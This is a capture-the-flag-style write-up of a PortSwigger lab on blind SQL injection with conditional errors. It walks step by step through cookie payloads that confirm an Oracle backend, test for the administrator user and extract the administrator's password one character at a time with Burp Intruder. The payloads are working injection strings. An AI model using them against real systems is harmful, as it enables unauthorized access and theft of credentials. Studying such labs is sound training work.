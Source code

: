 # Blind SQL injection with conditional errors

## Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. Exploiting the blind SQL injection vulnerability the password of the administrator user can be found out. 

## Reproduction and proof of concept

1. Visit the Home page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. The value of the cookie is `TrackingId=fUlVewByGOv8LfSS`.
2. Confirm the `TrackingId` is a SQLi vulnerable parameter: Modify the `TrackingId` cookie, appending a single quotation mark to it: `TrackingId=fUlVewByGOv8LfSS'`. An error message is received.
3. Now change it to two quotation marks: `TrackingId=fUlVewByGOv8LfSS''`. The error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.
4. Confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error: Construct a subquery using valid SQL syntax:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '')||'
```
    
The query appears to still be invalid. This may be due to the database type - try Oracle, by specifying a predictable table name in the query:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '' FROM dual)||'
```
    
There is no error, indicating that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.

5. Crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, by querying a non-existent table name:
    
```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '' FROM not-a-real-table)||'
```
    
An error is returned. This behaviour strongly suggests that your injection is being processed as a SQL query by the back-end.

Note: As long as syntactically valid SQL queries are injected, error responses can be used to infer key information about the database. 

6. To verify that the users table exists, send the query:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
    
As this query does not return an error, infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important to prevent the query from returning more than one row, which would break the concatenation.

7. It is also possible exploit this behaviour to test conditions:
    
```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

Verify that an error message is received. 

8. Then change it to:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
    
The error disappears, demonstrating that it is possible to trigger an error conditionally on the truth of a specific condition. The `CASE` statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The first expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.

Note: It is possible to use this behaviour to test whether specific entries exist in a table. 

9. Use the following query to check whether the username administrator exists:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
Verify that the condition is true (the error is received), confirming that there is a user called administrator.

![SQLi](../../_static/images/sqli19.png)
![SQLi](../../_static/images/sqli20.png) 

10. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

This condition should be true, confirming that the password is greater than 1 character in length.

11. Send a series of follow-up values to test different password lengths. Send:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
Then send:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
And so on. Do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is 20 characters long.

![SQLi](../../_static/images/sqli21.png)
![SQLi](../../_static/images/sqli22.png)

12. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests. Send the request to Burp Intruder, using the context menu.
13. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
14. In the Positions tab, change the value of the cookie to:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

15. Place payload position markers around the final a character in the cookie value. To do this, select just the `a`, and click the "Add §" button:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
16. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range `a-z` and `0-9`. You can select these easily using the "Add from list" drop-down.
17. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
18. Review the attack results to find the value of the character at the first position. The application returns an HTTP `500` status code when the error occurs, and an HTTP `200` status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with `500` in this column. The payload showing for that row is the value of the character at the first position.

![SQLi](../../_static/images/sqli23.png)

19. Re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from `1` to `2`:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

20. Launch the modified attack, review the results, and note the character at the second offset.
21. Continue this process testing offset `3`, `4`, and so on, until the whole password is known.
22. In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.

![SQLi](../../_static/images/sqli24.png)
